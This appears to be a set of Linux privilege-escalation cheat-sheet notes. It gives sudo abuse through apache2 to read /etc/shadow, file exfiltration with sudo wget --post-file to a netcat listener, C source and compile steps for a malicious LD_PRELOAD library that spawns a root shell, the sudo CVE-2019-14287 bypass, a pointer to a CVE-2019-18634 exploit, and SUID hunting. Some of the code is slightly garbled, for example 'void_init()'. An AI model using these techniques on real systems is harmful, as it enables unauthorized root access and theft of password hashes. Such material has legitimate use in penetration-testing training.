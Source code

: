 Escalation via Intended Functionality
- With Apache2
	- There is an intented functionality on apache that allows us to view system files.
	- We can get shell and can'tedit system files, but using this, we can view system files.
	- `sudo -l` - If apache2 is listed and does not requires password.
	- `sudo apache2 -f /etc/shadow`
- With Wget
	- set up a netcat listener
		- `nc -lvnp 8001`
	- Send wget commands as such:
		- `sudo wget -post-file=<filename> <ip><port>`

**Escalation via LD_PRELOAD**
- `sudo -l`
	- We can see the environment variable LD_PRELOAD
	- It is a feature of dynamic linker (LD) which is used for preloading the library.
- We are gonna be able to execute our own library and preload that before we run anything.
- We need to make malicious library in order to do it.
- `vim shell.c`
```c
	#include <stdio.h>
	#include <sys/types.h>
	#include <stdlib.h>
	void_init(){
		unsetenv("LD_PRELOAD");
		setgid(0);
		setuid(0);
		system("/bin/bash");
	}
``` 
- Compile: `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`
- `sudo LD_PRELOAD=/full/path/shell.so <appname>`
	- Where appname is an ouput of app list from `sudo -l`

**Escalation via CVE-2019-14287**
- Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo priv -u#-1 returns as 0 which is root's id.
- If we found `username ALL=(ALL:!root) /bin/bash`
- We can escalate the privilege with following:
	- `sudo -u#-1 /bin/bash`
- References: https://www.exploit-db.com/exploits/47502

**Escalation via CVE-2019-18634**
- In Sudo before 1.8.26, if pwfeedback is enabled in /etc/sudoers, users can trigger a stack-based buffer overflow in the privileged sudo process.
- This bug can be triggered even by users not listed in the sudoers file.
- There is no impact unless pwfeedback has been enabled.
- Download the payload from: https://github.com/saleemrashid/sudo-cve-2019-18634
- `./exploit`
- References: https://www.sudo.ws/security/advisories/pwfeedback/

## Escalation Path: SUID
- Find the files owned by root which have SUID.
- `find / -perm -u=s -type f 2>/dev/null`
- `ls -la <path/filename>`
- Navigate to GTFOBin and search for the filename/command.
- Select SUID and exploit as per it.
